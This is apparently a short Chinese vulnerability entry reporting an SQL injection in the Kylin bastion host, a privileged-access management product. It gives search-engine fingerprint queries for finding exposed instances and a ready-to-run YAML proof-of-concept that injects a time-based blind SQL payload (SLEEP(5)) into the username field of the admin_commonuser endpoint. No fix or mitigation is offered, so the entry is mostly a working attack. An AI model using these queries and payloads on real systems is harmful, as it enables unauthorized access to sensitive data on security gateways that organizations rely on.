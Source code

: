 麒麟堡垒机用于运维管理的认证、授权、审计等监控管理。中远麒麟堡垒机存在SQL注入，可利用该漏洞获取系统敏感信息。

**检索条件:**

cert="Baolei"||title="麒麟堡垒机"||body="admin.php?controller=admin_index&action=get_user_login_fristauth"||body="admin.php?controller=admin_index&action=login"



poc:

```
 relative: req0 && req1
  session: false
  requests:
  - method: POST
    timeout: 10
    path: /admin.php?controller=admin_commonuser
    headers:
      Content-Type: application/x-www-form-urlencoded
      User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML,
        like Gecko) Chrome/69.0.2786.81 Safari/537.36
    data: username=admin' AND (SELECT 6999 FROM (SELECT(SLEEP(5)))ptGN) AND 'AAdm'='AAdm
    follow_redirects: true
    matches: (code.eq("200") && time.gt("5") && time.lt("10"))
  - method: POST
    timeout: 10
    path: /admin.php?controller=admin_commonuser
    headers:
      User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML,
        like Gecko) Chrome/69.0.2786.81 Safari/537.36
      Content-Type: application/x-www-form-urlencoded
    data: username=admin
    follow_redirects: true
    matches: time.lt("5")
```

